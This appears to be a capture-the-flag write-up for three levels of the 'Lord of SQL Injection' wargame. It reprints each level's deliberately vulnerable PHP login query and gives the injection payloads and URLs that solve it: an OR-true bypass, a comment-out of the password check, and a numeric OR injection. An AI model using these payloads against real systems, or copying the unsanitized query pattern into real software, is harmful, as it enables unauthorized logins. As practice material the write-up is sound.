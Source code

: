 ## Lord Of SQL Injection

At [los.rubiya.kr](https://los.rubiya.kr/).

### Gremlin

```php
Challenge:

query : select id from prob_gremlin where id='' and pw=''

<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```

We just need to bypass the login with the simple `1' OR '1'='1`.

Final Url: `https://los.rubiya.kr/chall/gremlin_280c5552de8b681110e9287421b834fd.php/?id=1&pw=1%27%20OR%20%271%27=%271`

Human Readable `https://los.rubiya.kr/chall/gremlin_280c5552de8b681110e9287421b834fd.php/?id=1&pw=1' OR '1'='1`

Final Query: `select id from prob_gremlin where id='1' and pw='1' OR '1'='1'`

### Cobolt

```php
Challenge:

query : select id from prob_cobolt where id='' and pw=md5('')

<?php
  include "./config.php"; 
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```

We just need to bypass the MD5 password check and login as admin. So we use a `#` to comment out the MD5 check.

Final URL: `https://los.rubiya.kr/chall/cobolt_b876ab5595253427d3bc34f1cd8f30db.php?id=admin%27%20%23`

Human Readable: `https://los.rubiya.kr/chall/cobolt_b876ab5595253427d3bc34f1cd8f30db.php?id=admin' #`

Final Query: `select id from prob_cobolt where id='admin' #' and pw=md5('')`

### Goblin

```php
Challenge:

query : select id from prob_goblin where id='guest' and no=

<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```

Currently, we cannot edit the `id='guest'` before the `'no'` parameter, so we must focus on making the `SELECT` statement's first part evaluate to `false`, allowing us to inject whatever usernumber `no` into the second part of the statement.

Firstly, by adding `?no=1` to the url, we see the statement `Hello guest`.

This means that `id='guest' and no=1` has evaluated to `true`.
Thus, to make it evaluate to `false`, we simply change the end of the url to `?no=2`.

Then, the webpage returns to "normal" and we know that the first part of the statement has evaluated to `false`.

Next, to get the webpage to say "Hello Admin", since we know that number 1 is guest, we can try to add a `or no=2` after the earlier payload to evaluate false. 

Thus, the final payload is `?no=2 or no=2`.

Final URL: `https://los.rubiya.kr/chall/goblin_e5afb87a6716708e3af46a849517afdc.php?no=2%20OR%20no=2`

Human Readable: `https://los.rubiya.kr/chall/goblin_e5afb87a6716708e3af46a849517afdc.php?no=2 OR no=2`

Final Query: `select id from prob_goblin where (id='guest' and no=2) OR no=2`


### Thanks for Reading!

Have a bowl of udon and sashimi!

<img src="https://4.bp.blogspot.com/-s9haeFPrRc0/U5hUac1x-SI/AAAAAAAAhI4/Ob9UAm8_sMk/s400/bukkake_udon.png">
